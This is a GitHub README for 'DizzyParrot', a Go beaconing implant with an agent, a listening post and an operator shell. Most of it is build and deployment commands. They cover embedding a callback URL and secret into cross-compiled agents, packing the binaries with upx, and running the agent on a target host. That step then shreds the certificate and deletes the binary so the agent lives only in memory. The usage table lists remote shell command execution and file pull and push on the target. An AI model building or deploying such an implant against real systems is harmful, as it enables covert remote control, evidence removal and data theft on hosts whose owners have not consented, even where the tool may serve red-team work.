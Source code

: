 # DizzyParrot

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

![Shell](https://user-images.githubusercontent.com/10587919/78269929-34740c80-74d8-11ea-94cf-ecdc0d130dbe.png)

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```
#### Build with Makefile

Edit the Makefile to include the LP and agent specific information. This can be overridden from the command line as an alternative. Additional architectures can be added. To view a list of architectures supported natively by go, use the go tool command.

```
go tool dist list
```

Generic build instructions with make.
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git
cd DizzyParrot

# Install dependencies
make deps

# Build a server (lp), and shell
make all

# Make the server
make build_server

# Make a custom agent
make build_mips

# Make a custom agent and override Makefile enviornmental variables
make build_arm NAME=A10002

# Override options
make build_ppc NAME=A10002 URL=https://localhost:8443/portal/status SECRET=dizzyparrot CALLBACK=300 JITTER=60
```

#### Build manually. Clone the repo using git and go get dependencies.
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Make sure to set the common name as 'localhost'. If you don't, you may recieve a TLS Handshake error on the LP.

cd server; mkdir cert
openssl genrsa -out cert/server.key 4096
openssl req -new -x509 -sha256 -days 1825 -key cert/server.key -out 

# Start the LP
./server -c config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz server.crt; rm -f client
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt

# Drop old tables
DROP TABLE agents,results,tasks,tokens;

```
#### Basic Usage

```
agents               : List available agents.
agent <agent name>   : Tag into an agent for interaction. Tag without a name brings the user back to home and lists agents. 
task <command>       : Task the agent to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged               : Show jobs in the queue and are staged to be deployed to the agent.
deploy               : Move staged jobs into the deployed queue. Agent will pick these tasks up.
revoke               : Remove deployed jobs. 
revoke restage       : Removes deployed jobs and places in the staged queue to allow for additional commands to be added.
flush                : Flush the commands in the staged queue.
set callback <int>   : Task the agent to modify its callback. In seconds.
set jitter <int>     : Task the agent to offset the callback (+/-) by x seconds. In seconds.
kill                 : Kill the agent process.
job <job_id>         : Show the output from a job
jobs                 : List complete and deployed jobs.
pull <rfile>         : Pull a file from the target machine.
push <lfile> <rfile> : Push a local file to the target machine
forget <agent_name>  : Remove an agent from the database. 
dump agent           : Not yet implemented
dump job             : Not yet implemented
```

#### Todo
 
1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database. Based on bool value. Preserve pull path.

3. Add shell feature to dump agent results and commands to disk.

4. Add shell command to wipe database.

5. Add a scheduler option to run recurring commands at a given interval.
